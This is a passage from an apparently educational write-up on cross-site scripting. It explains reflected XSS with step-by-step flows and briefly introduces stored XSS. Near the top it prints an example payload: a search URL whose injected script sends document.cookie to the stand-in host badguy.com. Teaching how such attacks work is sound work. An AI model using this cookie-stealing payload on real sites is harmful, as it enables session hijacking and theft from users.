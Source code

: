 Attacker website:

```html
http://victim.com/search.php?term=<script> 
window.open("http://badguy.com?cookie=" + document.cookie) 
</script>
```

What happens upon clicking the link:

- Browser goes to `victim.com/search.php`
- Victim.com returns A HTML result for `<script>...</script>`
- Browser executes the script, sending the cookie from `victim.com` to `badguy.com`

A simplified version of the attack:

(1) Expected behavior:

When user searches for `apple`, it redirects to `http://victim.com/search.php?term=apple`. The page displays `<html>Results for apple</html>`.

(2) XSS Attack:

Attacker creates a phishing link `http://victim.com/search.php?term=<script>...</script>`, and sends it to the user.

(3) User clicks the link.

(4) The `term` parameter string is directly embeded in the victim website HTML: `<html>Results for <script>...</script></html>`. Scripts in HTML will be executed upon rendering, so the malicious script is executed.

```
1. [Attacker] sends malicious link to [User]
2. [User] clicks the link
3. [Victim] echoes the user input, executing the malicious script
4. [Browser] sends the cookie to [Attacker]
```

This is a **Reflected XSS Attack**, i.e. malicious code executed on the client-side is reflectd from server to launch attacks.

In other word, the attack script is reflected back to the user as part of a victim website's page.

Despite user only visits the honest victim website, the attacker can still execute malicious code on the user's browser. Somewhere in the victim website echoes user input, and the attacker makes use of this to inject malicious code. This includes manipulating DOM, requesting sensitive data, and controlling form fields.

#### Stored XSS

(1) Expected behavior:

User can comment on a blog post, and the comment is stored in the database. When users view the blog post, the comments are displayed.

(2) Stored XSS Attack:

The attacker submits a comment with a malicious script, and the script is stored in the database. When users view the blog post, the script is embedded in the page and executed.
